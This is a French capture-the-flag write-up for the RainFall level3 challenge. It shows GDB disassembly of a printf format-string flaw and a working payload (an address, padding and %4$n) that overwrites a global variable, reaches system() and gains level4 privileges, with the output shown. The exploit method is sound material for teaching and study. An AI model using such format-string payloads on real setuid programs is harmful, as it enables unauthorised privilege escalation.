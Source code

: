 En lançant GDB on s'appercoit que dans la fonction v appelé par le main il y a un fgets et que l'on ne pourra pas faire de buffer overflow car fgets controle le nombre de caractères lu.

```gdb
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
```

Neanmoins, on voit que printf (et toutes les fonctions de cette familles) est vulnerables aux failles de Format de string et notement aux %n car ce que l'on ecrit avec fgets et passé directement a printf qui fait office de la chaine de format de printf.

```gdb
0x080484c7 <+35>:	call   0x80483a0 <fgets@plt>
0x080484cc <+40>:	lea    eax,[ebp-0x208]
0x080484d2 <+46>:	mov    DWORD PTR [esp],eax
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
```

Pour atteindre la fonction system on doit passé une verification.
```gdb
0x080484d5 <+49>:	call   0x8048390 <printf@plt>
0x080484da <+54>:	mov    eax,ds:0x804988c
0x080484df <+59>:	cmp    eax,0x40
0x080484e2 <+62>:	jne    0x8048518 <v+116>
0x080484e4 <+64>:	mov    eax,ds:0x8049880
0x080484e9 <+69>:	mov    edx,eax
0x080484eb <+71>:	mov    eax,0x8048600
0x080484f0 <+76>:	mov    DWORD PTR [esp+0xc],edx
0x080484f4 <+80>:	mov    DWORD PTR [esp+0x8],0xc
0x080484fc <+88>:	mov    DWORD PTR [esp+0x4],0x1
0x08048504 <+96>:	mov    DWORD PTR [esp],eax
0x08048507 <+99>:	call   0x80483b0 <fwrite@plt>
0x0804850c <+104>:	mov    DWORD PTR [esp],0x804860d
0x08048513 <+111>:	call   0x80483c0 <system@plt>
```

On tatonne jusqu'a trouver le bon offset a passer a %n pour la modification
```bash
level3@RainFall:~$ python -c "print '\x8c\x98\x04\x08 %x %x %x %x'"> /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3 | ./level3
� 200 b7fd1ac0 b7ff37d0 804988c
```
On doit bien lui passer 4 pour atteindre la variables a modifier pour passer la verification.
```bash
level3@RainFall:~$ python -c "print('\x8c\x98\x04\x08' + 'B' * 60 + '%4\$n')" > /tmp/exploit3
level3@RainFall:~$ cat /tmp/exploit3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB%4$n
level3@RainFall:~$ cat /tmp/exploit3 - | ./level3
�BBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBBB
Wait what?!
id
uid=2022(level3) gid=2022(level3) euid=2025(level4) egid=100(users) groups=2025(level4),100(users),2022(level3)
```
